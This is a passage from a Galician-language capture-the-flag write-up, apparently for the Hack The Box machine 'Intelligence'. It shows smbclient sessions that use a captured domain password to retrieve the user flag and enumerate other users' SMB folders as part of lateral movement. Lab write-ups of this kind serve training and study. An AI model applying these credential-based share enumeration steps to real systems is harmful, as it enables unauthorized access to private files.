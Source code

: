 \documentclass[a4paper]{article}
\begin{document}
\begin{lstlisting}[language=Bash, caption=Recursos compartidos, linewidth=18.7cm]
		3770367 blocks of size 4096. 1265474 blocks available
smb: \> cd Tiffany.Molina\Desktop\
smb: \Tiffany.Molina\Desktop\> dir
  .                                  DR        0  Mon Apr 19 07:51:46 2021
  ..                                 DR        0  Mon Apr 19 07:51:46 2021
  user.txt                           AR       34  Mon Jun  6 04:52:50 2022

		3770367 blocks of size 4096. 1265474 blocks available
smb: \Tiffany.Molina\Desktop\> get user.txt
getting file \Tiffany.Molina\Desktop\user.txt of size 34 as user.txt (0,2 KiloBytes/sec) (average 0,2 KiloBytes/sec)
smb: \Tiffany.Molina\Desktop\> exit\end{lstlisting}

        \begin{lstlisting}[language=Bash, caption=Flag user.txt]
$ cat user.txt\end{lstlisting}

        \clearpage
        \section{Escalada de privilexios}
        \vspace{0.2cm}
        \subsection{Movemento lateral}
        Comprobamos o acceso ás contas doutros usuarios:
        \begin{lstlisting}[language=Bash, caption=Outros usuarios existentes no sistema]
$ smbclient -U'intelligence.htb/Tiffany.Molina%NewIntelligenceCorpUser9876' //10.10.10.248/Users
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Mon Apr 19 03:20:26 2021
  ..                                 DR        0  Mon Apr 19 03:20:26 2021
  Administrator                       D        0  Mon Apr 19 02:18:39 2021
  All Users                       DHSrn        0  Sat Sep 15 09:21:46 2018
  Default                           DHR        0  Mon Apr 19 04:17:40 2021
  Default User                    DHSrn        0  Sat Sep 15 09:21:46 2018
  desktop.ini                       AHS      174  Sat Sep 15 09:11:27 2018
  Public                             DR        0  Mon Apr 19 02:18:39 2021
  Ted.Graves                          D        0  Mon Apr 19 03:20:26 2021
  Tiffany.Molina                      D        0  Mon Apr 19 02:51:46 2021

		3770367 blocks of size 4096. 1462539 blocks available
smb: \> cd Administrator\
smb: \Administrator\> dir
NT_STATUS_ACCESS_DENIED listing \Administrator\*
smb: \Administrator\> cd ..
smb: \> cd Ted.Graves\
smb: \Ted.Graves\> dir
NT_STATUS_ACCESS_DENIED listing \Ted.Graves\*
smb: \Ted.Graves\> exit\end{lstlisting}
\end{document}
